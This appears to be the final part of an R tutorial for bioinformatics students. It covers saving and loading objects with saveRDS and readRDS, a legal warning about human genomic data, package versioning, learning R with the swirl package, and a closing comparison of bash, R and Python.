We already depicted the [`save.image()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/save) function to save a copy of your **complete** working environment.

However, you can save _only the content of a given variable_, solely. This is useful when you want to save the result of a function (or a pipeline) but not the whole 5 hours of trials and error work you've been spending on how-to-make-that-bloody-pipeline-work-correctly.

The (compressed) format to save an object is called  [RDS](https://www.r-bloggers.com/2016/12/remember-to-use-the-rds-format/) for R Data Serialization. This is done using the [`saveRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS) function :

```r
saveRDS(object = example_table, file = "example_table.RDS")
```

Hopefully, you can load a RDS content into a variable ! This is useful when you receive a RDS from a coworker, or you'd like to keep going your work from a saved point. This is done with the [`readRDS()`](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/readRDS) function :

```r
example_table <- readRDS(file = "example_table.RDS")
```

> NOTE : You can see in the example above that loading an object save as a RDS requires to inject it in a _variable_. This means that the RDS contains the object, but unnamed. This is not the case when saving an environment (using `save()`), as _all_ loaded objects are saved, thus their respective names are kept.

## Human data

<span style="color:#CD853F"> WARNING : If you hold human-related genomic datasets that can allow person identification (ie, sequences), you cannot use/upload these data anywhere without control. This is strictly illegal, and such behavior may take your for up to 5 years in jail, assorted to a 300 000€ fine. [Art. 226-16, Section 5, Code pénal](https://www.cnil.fr/fr/les-sanctions-penales).</span>

## Packages update

It is a good practice to maintain package versions within a work project. If you update a package (whether by need, or by will), then you should restart your work from the start. This stands as long as you're not 100% sure the update does not affect your results.

# The Swirl package

What if I would like to pursue learning R by myself, when I can or want ?

<img src="images/swirl_new_large_final.png" alt="swirl_new_large_final" width="200"/>

## What is swirl?

[`swirl`](https://swirlstats.com/) is an R package that teaches you R programming and data science interactively, at your own pace, and straight into the R console.

It presents a choice of course lessons and interactively tutors a student through them, with multiple levels of complexity. A student may be asked to watch a video, to answer a multiple-choice or fill-in-the-blanks question, or to enter a command in the R console precisely as if he or she were using R in practice. Emphasis is on the last, interacting with the R console. User responses are tested for correctness and hints are given if appropriate.

Progress is automatically saved so that one may quit at any time and later resume without losing anything.

## Installation and usage

```r
#install package
install.packages("swirl")
#load package
library(swirl)
#install the R course for 
install_course("R Programming")
#start the course
swirl()
```
Enjoy!

<details>
<summary>Other useful command lines for swirl usage</summary>

```r
#quit swirl
bye()
#skip a question
skip()
#return to the main menu
main()
#allow experimentation in the R console without interference from swirl
play()
#to resume interacting with swirl
nxt()
#display a help menu
info()
```

</details>

# Conclusion

No programming language is better than any other. They all serve different purposes. Anyone telling the opposite is (over)-specialized in the language they are advertising (and probably have a strong lack of objectivity.

In the field of bioinformatics, languages used by the community are quite limited. The main, widely adopted options are :

- [_bash_](https://www.gnu.org/software/bash/)
- [_R_](https://www.r-project.org/)
- [_Python_](https://www.python.org/).

While learning [_bash_](https://www.gnu.org/software/bash/) cannot be escaped nowadays to interact with a HPC, it is not enough to perform a complete analysis with publication-ready figures and shaped results. You should get interest in another programming language: [_R_](https://www.r-project.org/) and/or [_Python_](https://www.python.org/). R allows you to do a lot of different analyses, and it has a large user community with lots of online resources for help. As such, it's one of the easiest languages for beginners.

Please, note that this advice is valid today, but may change. Mainy other programming languages are used, some have lost their place on the podium, and others are trying to supersede [_bash_](https://www.gnu.org/software/bash/), [_R_](https://www.r-project.org/), and [_Python_](https://www.python.org/). An example is [_Julia_](http://julialang.org/)

<div style="float: right;">Thibault: "Anyway [_Python_](https://www.python.org/) is the best programming language in the WORLD. Don't listen to Bastien."</div>

<div style="float: right;">Bastien: "Huh, Thibault.. Remember when one talked about _objectivity_ ? :p"</div>


